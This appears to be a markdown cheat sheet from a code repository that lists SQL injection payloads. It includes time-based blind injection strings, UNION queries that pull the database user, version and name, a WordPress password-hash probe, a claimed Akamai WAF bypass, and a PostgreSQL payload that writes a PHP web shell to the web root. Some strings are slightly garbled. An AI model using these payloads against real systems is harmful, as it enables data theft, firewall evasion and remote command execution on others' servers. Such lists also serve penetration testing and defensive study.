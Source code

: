 # SQL Injection Payloads
## Time Based SQL Payloads
```sql
WAITFOR DELAY '0:0:5'
'XOR(if(now()=sysdate(),sleep(1*1),0))OR'
')orsleep(5)='
1))orsleep(5)#
"))orsleep(5)="
'))orsleep(5)='
;waitfor delay'0:0:5'--
);waitfor delay'0:0:5'--
';waitfor delay'0:0:5'--
";waitfor delay'0:0:5'--
');waitfor delay'0:0:5'--
");waitfor delay'0:0:5'--
));waitfor delay'0:0:5'--
{"param":"1")))+MySQL_payload--+--}
/**/WHEN(LENGTH(​version()​)=​10​)THEN(SLEEP(6*1))END
%2c(select*from(select(sleep(20)))a)
{{"sleep"%2c"13"})}${{"timeout"%2c"13"})
+UNION+SELECT+1,2,3,CONCAT(user(),version(),database()),5,6,7,8--+r0hack"}
{sleep(hexdec(dechex(13)))}${sleep(hexdec(dechex(13)))}
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
'+(select*from(select(sleep(20)))a)+'
%20and%20(select%20*%20from%20(select(if(substring(user(),1,1)='p',sleep(5),1)))a)--%20 - true (sleeps 5 sec)
" AND (length(database())) = "11 --+-
```
## Other SQL Injection Payloads
```sql
+OR+1=insert(1,1,1,1)--
+OR+1=replace(1,1,1)--
{`foo`/*bar*/(select+1)\}'
{`foo`/*bar*/(select%2b2)}
{`foo`/*bar*/(select+1+from+wp_users+where+user_pass+rlike+"(^)[$].*"+limit+1)}
```
## Akami WAF Bypass
```sql
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
```

## You can use the PostgreSQL \g command in your SQLi to create a file on the server. 
```sql
' UNION SELECT '<?php $out = shell_exec($_GET["x"]); echo "<pre>$out</pre>";?>' \g /var/www/test.php; --
```
**Example**<br>
[![img](https://pbs.twimg.com/media/EpNcPxHW8AEP2v1?format=jpg&name=large)](https://twitter.com/bugbountynights/status/1338515958567227393?s=20)
